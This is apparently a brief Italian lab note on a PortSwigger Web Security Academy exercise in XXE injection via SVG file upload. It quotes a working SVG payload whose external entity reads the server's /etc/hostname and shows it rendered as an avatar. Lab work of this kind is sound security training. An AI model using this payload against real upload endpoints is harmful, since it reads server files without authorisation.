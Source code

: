 https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

Ho usato un payload preso da qui:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

![](_attachment/Pasted%20image%2020250405115826.png)

```html
|   |
|---|
|<section class="comment">|
||<p>|
||<img src="[/post/comment/avatars?filename=16.png](https://0a5000c5046f80b980810d98000f00da.web-security-academy.net/post/comment/avatars?filename=16.png)" class="avatar"> eeeeeeeeeeee \| 05 April 2025|
||</p>|
||<p>lmao</p>|
||<p></p>|
||</section>|
```

Solution:

![](_attachment/Pasted%20image%2020250405115515.png)

...ovviamente è importante scegliere un elemento che viene realmente renderizzato nella pagina.
